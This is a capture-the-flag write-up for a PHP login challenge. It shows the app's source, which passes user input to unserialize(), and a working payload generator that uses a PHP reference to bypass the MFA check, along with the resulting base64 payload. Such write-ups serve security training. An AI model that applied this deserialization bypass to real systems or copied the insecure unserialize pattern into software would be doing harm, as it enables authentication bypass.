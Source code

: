 ![alt text](1.png "Chall")

The challenge is a web challenge where the source code is known.

![alt text](2.png "Chall")

The website is a login form where you need to supply the username, password and the MFA token to get the flag.

This is the source code of the `index.php` file. The interesting part of this is that it takes user input and serializes it and supplies it to the User class.

```jsx
<?php

include 'class/User.php';

if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);

	// log access
	//Logger::log(Logger::SENSITIVE, 'Login attempt: ' . $loginAttempt);

	// Hand over to federation login
	// TODO currently just a mock up
	// TODO encrypt information to avoid loos of confidentiality
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	catch (Exception $e)
	{
		$notification->type = 'danger';
		$notification->text = $e->getMessage();
	}
}

include 'template/home.html';
```

Checking the User.php file we see that we need to bypass three checks.

- Username check
- Password check
- MFA check.

```jsx
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

The first check is easy, set the username to `D0loresH4ze`.

A quick google search of the hash tells us that the password is `rasmuslerdorf`.

The third check is the MFA which is a bit harder to bypass.

```jsx
$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
return (int)$this->userData->mfa === $this->userData->_correctValue;
```

We control both values, `$this->userData->_correctValue` and `$this->userData->mfa`.  Even if we control the `_correctValue`, the value is overwritten by a random number before the check.

Also the code is using `===` and a strict type cast to int for the `mfa`. This means type juggling is out of the equation..

How can we bypass the check? We can use a object reference to automatically set the mfa value based on the correctValue. This is done using the following syntax in PHP

```jsx
$user->mfa =& $user->_correctValue;
```

The final code to generate the payload is:

```jsx
class User
{
    public $username = "D0loresH4ze";
    public $password = "rasmuslerdorf";
    public $mfa;
    public $_correctValue;
}

$user = new User();
$user->mfa =& $user->_correctValue;

echo base64_encode(serialize($user));
```

```jsx
Tzo0OiJVc2VyIjo0OntzOjg6InVzZXJuYW1lIjtzOjExOiJEMGxvcmVzSDR6ZSI7czo4OiJwYXNzd29yZCI7czoxMzoicmFzbXVzbGVyZG9yZiI7czozOiJtZmEiO2k6MTtzOjEzOiJfY29ycmVjdFZhbHVlIjtSOjQ7fQ==
```

![alt text](3.png "Chall")
